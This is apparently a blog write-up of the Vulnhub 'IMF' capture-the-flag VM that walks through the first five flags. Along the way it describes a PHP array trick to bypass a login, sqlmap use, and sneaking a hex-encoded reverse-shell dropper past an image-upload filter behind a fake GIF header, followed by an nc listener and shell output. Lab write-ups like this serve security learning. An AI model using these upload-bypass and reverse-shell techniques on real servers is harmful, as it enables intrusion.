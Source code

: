 ```yaml
---
layout: post
title: IMF
---
```

So let's get started with my first CTF virtual machine writeup. I downloaded the virtual machine file from [Vulnhub](https://www.vulnhub.com/entry/imf-1,162/) The description doesn't give much away:
>Welcome to "IMF", my first Boot2Root virtual machine. IMF is a intelligence agency that you must hack to get all flags and ultimately root. The flags start off easy and get harder as you progress. Each flag contains a hint to the next flag. I hope you enjoy this VM and learn something. 

First flag in comments of contact.php
flag1{YWxsdGhlZmlsZXM=}
Flag1 decodes to allthefiles, which points to base64 encoded file names. The trick is to merge the names.
Decoded names are the second flag
flag2{aW1mYWRtaW5pc3RyYXRvcg==}
Flag 2 decodes to imfadministrator, which points to /imfadministrator
Comment under login form claims that he couldn't get the sql working so he hardcoded the password. At first i tried some sql injection fuzzing but it obviously didn't work.
Then it struck me: the error on the page said 'Invalid username.' so it probably will tell me if guessed correctly the user without password.
Tried admin and some combinations of roger, author of the comment but no luck. Then I remembered the /contact.php page. There is email rmichaels@imf.local for Roger so I figured it's his login.
Now the page says the password is wrong, so I'm on the good track. Now to break super-safe hardcoded password all you need to do is to make pass argument as an array like this:
user=rmichaels&pass[]=
flag3{Y29udGludWVUT2Ntcw==}
Decoded flag 3 says 'continueTOcms' which frankly is pretty obvious given it's the only link we see
CMS cracked with sqlmap
flag4{dXBsb2Fkcjk0Mi5waHA=}
Flag 4 decodes to uploadr942.php
Navigating to /imfadministrator/uploadr942.php reveals simple file uploader. 
Couple minutes of fiddling with different samples of files I found out the server
allows only graphic files, filtering in addition some 'dangerous' php functions.
After uploading the file we can find the comment with strange string.
It's the file name of a file found in the /imfadministrator/uploads/ folder
after uploading the image.
After more experimenting I found out that it does allow file_put_contents function, 
so I decided to obfuscate actual payload inside a dropper utilizing this function:
cp /usr/share/webshells/php/php-reverse-shell.php reverse-shell.php
Set proper host
cat reverse-shell.php | xxd -p | tr -d [:space:] > payloadhex.txt
Wrap it in php dropper and add GIF98 header to fool filter.
Next navigate to a dropper (remember to check the name of the file in the HTML comment)
after running a dropper we can setup a listener on attackers machine:
nc -lp 1234
and after navigating to /msfadministrator/uploads/backdoor.php we ge a shell!
Linux imf 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 15:53:41 up  2:42,  0 users,  load average: 0.11, 0.12, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
Now we can navigate to /var/www/html/imfadministrator/uploads
And besides our uploaded junk we have a flag:
drwxr-xr-x 2 www-data www-data  4096 Jun  7 13:36 .
drwxr-xr-x 4 www-data www-data  4096 Oct 17  2016 ..
-rw-r--r-- 1 www-data www-data    82 Oct 12  2016 .htaccess
-rw-r--r-- 1 www-data www-data  6074 Jun  6 13:01 048cc0ba197b.gif
-rw-r--r-- 1 www-data www-data    27 Jun  2 10:53 15d75ca3b468.gif
-rw-r--r-- 1 www-data www-data 11052 Jun  7 13:36 29ab56559292.gif
-rw-r--r-- 1 www-data www-data  6061 Jun  6 10:57 4688d3be2edf.gif
-rw-r--r-- 1 www-data www-data 45944 Jun  2 10:49 66024f4e10de.jpg
-rw-r--r-- 1 www-data www-data  6089 Jun  6 10:59 825abef8c60f.gif
-rw-r--r-- 1 www-data www-data  5494 Jun  7 13:37 backdoor.php
-rw-r--r-- 1 www-data www-data 58816 Jun  1 13:09 bd580392b826.jpg
-rw-r--r-- 1 www-data www-data 58816 Jun  1 13:00 c4e76ada9220.jpg
-rw-r--r-- 1 www-data www-data    28 Oct 12  2016 flag5_abc123def.txt

flag5{YWdlbnRzZXJ2aWNlcw==}
Flag 5 decodes to agentservices

